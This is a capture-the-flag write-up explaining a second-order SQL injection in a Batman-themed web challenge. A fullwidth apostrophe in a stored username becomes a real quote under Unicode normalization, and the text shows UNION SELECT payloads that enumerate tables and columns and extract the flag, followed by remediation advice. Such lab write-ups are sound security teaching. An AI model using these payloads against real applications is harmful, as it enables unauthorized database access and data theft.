This writeup covers **The Riddler's Hall of Fame**, a web challenge built around a subtle username normalization issue.

The vulnerability is not a basic login bypass. The interesting part is that the payload is stored first, then transformed later when the leaderboard loads. That makes it a **second-order SQL injection** caused by Unicode normalization.

## First Look

Opening the challenge shows a dark Batman-themed website called **The Riddler's Hall of Fame**.



The first step is simple: register a normal account with any username and password.



After logging in, the application shows a riddle page.



The answer is:

```text
echo
```

After solving it, the app redirects to the Hall of Fame leaderboard. The account appears with a score of `1337`.



At this point nothing looks strange. It behaves like a normal small web app.

## Reading the Register Form

Going back to the register form and reading the helper text under the username field gives the real hint:

> Only standard characters allowed — the system converts all names to a canonical display format for the leaderboard. Unicode ornamental characters like ＯＲ are accepted but normalized.



Two details matter here:

- The system normalizes usernames before using them.
- `ＯＲ` is explicitly mentioned, and that is the fullwidth Unicode version of `OR`.

The username also appears later on the Hall of Fame page. That means the app uses the username in two different moments: once during registration, and again when loading the leaderboard.

That gap is important.

## Testing the Quote

Looking into **NFKC Unicode normalization** shows the key behavior:

```text
＇  ->  '
```

The character `＇` is a fullwidth apostrophe, also known as `U+FF07`. Under NFKC normalization, it becomes a regular single quote.

So if the app stores `＇` during registration, but later normalizes it before placing it inside a SQL query, it can turn into a real `'` and break the query.

To test that, register with this username:

```text
x＇
```



Then login, answer the riddle, and visit the Hall of Fame.



The app returns:

```text
SQL ERROR
1064 (42000): You have an error in your SQL syntax;
near ''x'' at line 1
```

Injection confirmed. The fullwidth apostrophe was normalized into a real quote and broke the SQL statement.

The app also leaks the full SQL error, which makes the rest of the challenge much easier.

## Understanding the Query

The error near `''x''` suggests the backend query is probably shaped like this:

```sql
SELECT score FROM scores WHERE username = 'x''
```

The username is inside single quotes, and the query only returns one column: `score`.

That means the payload needs to:

- close the string,
- inject a `UNION SELECT`,
- return exactly one column,
- comment out the rest of the original query.

## Enumerating Tables

The next step is to list the tables in the current database.

Register with this username:

```sql
x＇ UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()--
```



I used `GROUP_CONCAT` because the leaderboard prints one result in the score column. Instead of dealing with multiple returned rows, this collapses the table names into one visible value.

After logging in, solving the riddle, and opening the Hall of Fame, the score column shows the table names.



The result is:

```text
players,scores,hall_of_fame_secrets
```

The interesting table is clearly:

```text
hall_of_fame_secrets
```

## Enumerating Columns

Now that the target table is known, the next step is to list its columns.

Register with:

```sql
x＇ UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='hall_of_fame_secrets'--
```



Then login, solve the riddle, and check the Hall of Fame again.



The score column shows:

```text
id,note,flag
```

There is a `flag` column.

## Getting the Flag

The final payload only needs to select the flag from the secret table.

Register with:

```sql
x＇ UNION SELECT flag FROM hall_of_fame_secrets--
```



After logging in, answering the riddle, and opening the Hall of Fame, the flag appears in the leaderboard.



```text
securinetsisgt{s3c0nd_0rd3r_un1c0d3_1s_th3_r1ddl3r_w4y}
```

## Final Thoughts

The challenge is a good example of why input handling needs to be consistent across the whole application.

The username looked safe at registration time because the dangerous character was not a normal quote yet. Later, NFKC normalization converted it into one, and the normalized value was used inside a SQL query.

The bug came from the combination of:

- Unicode normalization,
- delayed reuse of stored input,
- string-built SQL queries,
- verbose SQL error output.

The fix would be to use parameterized queries everywhere, normalize input before validation and storage, and avoid exposing raw database errors to users.
